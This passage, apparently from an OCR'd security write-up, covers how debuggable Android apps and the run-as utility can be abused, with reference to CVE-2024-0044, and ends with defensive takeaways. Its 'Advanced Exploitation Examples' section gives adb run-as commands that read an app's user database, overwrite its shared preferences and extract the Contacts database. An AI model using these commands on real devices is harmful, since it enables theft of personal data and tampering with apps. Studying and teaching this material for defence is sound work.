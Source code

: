### Educate Development Teams

- Conduct training on:
    - Secure use of the `android:debuggable` flag.
    - Proper handling of sandboxing mechanisms.
    - Mitigation techniques for vulnerabilities.

---

## Advanced Exploitation Examples

### Reading Sensitive Data

- Use `run-as [package_name]` followed by commands like `cat` to extract data files:
    
    bash
    
    CopyEdit
    
    `adb shell run-as com.example.app cat /data/data/com.example.app/databases/userdata.db`
    

### Injecting Malicious Data

- Overwrite configuration files to alter app behavior:
    
    bash
    
    CopyEdit
    
    `adb shell run-as com.example.app echo "modified_value" > /data/data/com.example.app/shared_prefs/config.xml`
    

### Privileged Application Example

- Access the Contacts app’s database:
    
    bash
    
    CopyEdit
    
    `adb shell run-as com.android.providers.contacts sqlite3 /data/data/com.android.providers.contacts/databases/contacts2.db`
    
    Extract sensitive information like contact numbers and emails.

---

## Conclusion

### Key Insights

1. Debuggable apps significantly weaken Android’s security model.
2. Exploiting vulnerabilities like CVE-2024-0044 showcases the importance of input validation and secure coding.
3. The `run-as` utility, while useful for debugging, can be weaponized when misused.
